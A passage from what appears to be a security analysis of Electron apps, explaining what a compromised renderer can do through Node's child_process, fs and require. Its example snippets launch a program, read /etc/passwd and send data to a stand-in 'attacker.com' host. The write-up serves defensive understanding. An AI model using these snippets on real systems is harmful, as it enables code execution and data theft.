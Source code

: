 *   **Executing Arbitrary Code on the Underlying System using `child_process`:**

    *   **Mechanism:** The `child_process` module in Node.js allows spawning new processes on the operating system. An attacker can use functions like `child_process.exec`, `child_process.spawn`, or `child_process.execSync` to execute arbitrary commands on the user's machine.
    *   **Example Code (in compromised Renderer):**
        ```javascript
        const { exec } = require('child_process');
        exec('calc.exe', (error, stdout, stderr) => { // Example: Launch Calculator on Windows
          if (error) {
            console.error(`exec error: ${error}`);
            return;
          }
          console.log(`stdout: ${stdout}`);
          console.error(`stderr: ${stderr}`);
        });
        ```
        *   **Impact:** This allows the attacker to run any program on the user's system with the privileges of the Electron application. This can lead to:
            *   Installation of malware.
            *   Data exfiltration.
            *   System manipulation.
            *   Denial of service.

*   **Accessing and Manipulating the File System using `fs`:**

    *   **Mechanism:** The `fs` (File System) module provides functions for interacting with the file system. An attacker can use functions like `fs.readFile`, `fs.writeFile`, `fs.readdir`, `fs.unlink`, etc., to read, write, modify, and delete files on the user's system.
    *   **Example Code (in compromised Renderer):**
        ```javascript
        const fs = require('fs');
        fs.readFile('/etc/passwd', 'utf8', (err, data) => { // Example: Read sensitive file (Linux/macOS)
          if (err) {
            console.error("Error reading file:", err);
            return;
          }
          console.log("File content:", data);
          // Attacker could exfiltrate 'data' to their server
        });
        ```
        *   **Impact:** This allows the attacker to:
            *   **Read sensitive data:** Access user documents, application data, system configuration files, and potentially credentials.
            *   **Modify application files:**  Tamper with the application's code or data, potentially leading to persistent backdoors or application malfunction.
            *   **Delete critical files:** Cause data loss or system instability.
            *   **Plant malicious files:** Introduce malware or exploit other vulnerabilities.

*   **Requiring and Using any Node.js Module:**

    *   **Mechanism:** The `require()` function in Node.js allows loading and using any available Node.js module. This includes built-in modules (like `child_process`, `fs`, `net`, `http`, etc.) and any modules installed via `npm` or available in the application's `node_modules` directory.
    *   **Example Code (in compromised Renderer):**
        ```javascript
        const http = require('http');
        http.get('http://attacker.com/collect-data?app=myapp&data=sensitiveinfo', (res) => {
          // ... handle response ...
        });
        ```
        *   **Impact:** This significantly expands the attacker's capabilities. They can:
            *   **Utilize powerful modules:** Leverage modules for networking (`net`, `http`), cryptography (`crypto`), operating system interaction (`os`), and more to perform complex attacks.
            *   **Load malicious modules:**  Download and execute malicious Node.js modules from the internet or local storage.